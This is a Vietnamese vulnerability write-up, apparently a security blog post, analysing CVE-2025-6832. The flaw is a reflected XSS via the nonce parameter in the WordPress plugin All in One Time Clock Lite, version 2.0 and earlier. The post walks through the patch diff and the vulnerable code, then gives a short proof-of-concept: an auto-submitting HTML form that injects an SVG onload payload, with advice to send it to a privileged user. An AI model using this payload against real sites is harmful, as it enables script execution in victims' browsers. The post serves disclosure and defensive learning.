



---

**Lỗ hổng Reflected Cross-Site Scripting (XSS)** trong plugin **All in One Time Clock Lite** cho WordPress.
Lỗ hổng xuất phát từ tham số **nonce** ở các phiên bản đến và bao gồm **2.0**, do **xử lý đầu vào không đầy đủ** và **không escape đầu ra**.
Kẻ tấn công (kể cả không xác thực) có thể chèn các đoạn script tùy ý vào trang; những script này sẽ được thực thi khi nạn nhân thực hiện hành động bị thao túng (ví dụ: bấm vào một liên kết).

* **CVE ID**: [CVE-2025-6832](https://www.cve.org/CVERecord?id=CVE-2025-6832)
* **Vulnerability Type**: Cross Site Scripting
* **Affected Versions**: <= 2.0
* **CVSS severity**: Medium (7.1) 
* **Required Privilege**: Unauthenticated
* **Product**: [WordPress All in One Time Clock Lite Plugin](https://wordpress.org/plugins/aio-time-clock-lite/)

---

## Requirements

* [**Local WordPress and Debugging**](https://w41bu1.github.io/blog/2025-08-21-wordpress-local-and-debugging/)
* **Plugin versions** - **All in One Time Clock Lite**: **v2.0** (vulnerable) và **v2.0.1** (patched).
* **Diff tool** - **Meld** hoặc bất kỳ công cụ so sánh (diff) nào để kiểm tra và so sánh khác biệt giữa hai phiên bản.

---

## Analysis

### Patch diff
Trong phiên bản **vulnerable**, tham số `nonce` được lấy trực tiếp từ `$_POST` mà **không qua bất kỳ sanitization nào**:

```php
$nonce = (isset($_POST["nonce"])) ? $_POST["nonce"] : null;
```

Trong phiên bản **patched**, tham số `nonce` được xử lý bằng [`sanitize_text_field()`](https://developer.wordpress.org/reference/functions/sanitize_text_field/) trước khi sử dụng, ngăn chặn việc chèn mã độc:

```php
$nonce = (isset($_POST["nonce"])) ? sanitize_text_field($_POST["nonce"]) : null;
```

👉 Bản vá bổ sung lớp lọc đầu vào cho biến `nonce`, đảm bảo dữ liệu nhận từ request sẽ được loại bỏ ký tự nguy hiểm trước khi xử lý tiếp.



---

### Vulnerable code 
Lỗ hổng nằm trong hàm `aio_time_clock_lite_js()` thuộc class `AIO_Time_Clock_Lite_Actions` trong file `aio-time-clock-lite-actions.php`{: .filepath}

```php
public function aio_time_clock_lite_js()
{
    // other logic       
    $nonce = (isset($_POST["nonce"])) ? $_POST["nonce"] : null;

    if (wp_verify_nonce($nonce, 'time-clock-nonce')) {
        // other logic            
    } else {
        echo json_encode(
            [
                "response"     => "failed",
                "message"      => esc_attr_x("Not authorized to perform this action", 'aio-time-clock-lite'),
                "nonce"        => $nonce,
                "clock_action" => $clock_action,
            ]
        );
    }

    wp_reset_postdata();
    die();
}
```
{: file="aio-time-clock-lite-actions.php"}

Hàm `wp_verify_nonce()` so sánh giá trị `$nonce` gửi từ client với giá trị hợp lệ mà server đã sinh ra trước đó bằng hàm `wp_create_nonce()`.

```php
<input type="hidden" name="time-clock-nonce" id="time-clock-nonce" value="<?php echo wp_create_nonce("time-clock-nonce"); ?>">
```
{: file="aio-settings.php"}

Nếu `$nonce` không hợp lệ => nhảy sang nhánh `else` trả về **JSON** báo lỗi chứa `$nonce`.

Click `2 references` ta thấy hàm `public function aio_time_clock_lite_js()` được gọi làm callback cho các action hook:


_Hàm aio_time_clock_lite_js() được gắn vào hai hook Ajax (authenticated & unauthenticated)_

* `wp_ajax_aio_time_clock_lite_js`(authenticated).
* `wp_ajax_nopriv_aio_time_clock_lite_js`(unauthenticated). => Focus

### Sources & Sinks

* **Source**: Tham số `nonce` lấy trực tiếp từ `$_POST` (unauthenticated request).
* **Sink**: Giá trị `nonce` được phản chiếu lại trong `echo json_encode(...)`.

### Flow

1. Gửi POST request (unauthenticated) đến `/wp-admin/admin-ajax.php` với các **params**:
```
action=aio_time_clock_lite_js&nonce=nonce_value
```

2. Callback `aio_time_clock_lite_js()` được gọi
3. Kiểm tra giá trị `nonce` => **invalid**
4. Phản chiếu giá trị `nonce` vào body bằng `echo json_encode(...)`

## Exploit
### Proof of Concept (PoC)

- Tạo trang web chứa form submit:

```html
<form action="http://localhost/wp-admin/admin-ajax.php" method="post">
  <input type="hidden" name="action" value="aio_time_clock_lite_js">
  <input type="hidden" name="nonce" value="<svg onload=alert()>">
</form>
<script>document.forms[0].submit()</script>
```

- Gửi link đến trang web chứa form cho người dùng cho dặc quyền.
- Quan sát việc thực hiện **JavaScript** được tiêm.



---

## Conclusion

Lỗ hổng **CVE-2025-6832** trong plugin **All in One Time Clock Lite <= 2.0** cho phép **unauthenticated attacker** khai thác Reflected XSS thông qua tham số `nonce`. Bản vá **2.0.1** đã thêm `sanitize_text_field()` để lọc input, ngăn chặn mã độc được phản chiếu trong JSON response.

**Key takeaways**:

* Luôn **sanitize** và **escape** dữ liệu trước khi trả về response.
* Endpoint mở cho **nopriv (unauthenticated)** cần được xem xét cẩn trọng.
* Reflected XSS thường xuất hiện khi giá trị input được phản chiếu trực tiếp trong output (JSON/HTML).
* **Update plugin** kịp thời là cách đơn giản nhất để giảm thiểu rủi ro.

---

## References

[Cross-site scripting (XSS) cheat sheet — PortSwigger](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

[WordPress All in One Time Clock Lite <= 2.0 — CVE-2025-6832](https://patchstack.com/database/wordpress/plugin/aio-time-clock-lite/vulnerability/wordpress-all-in-one-time-clock-lite-tracking-employee-time-has-never-been-easier-plugin-2-0-reflected-cross-site-scripting-vulnerability)

---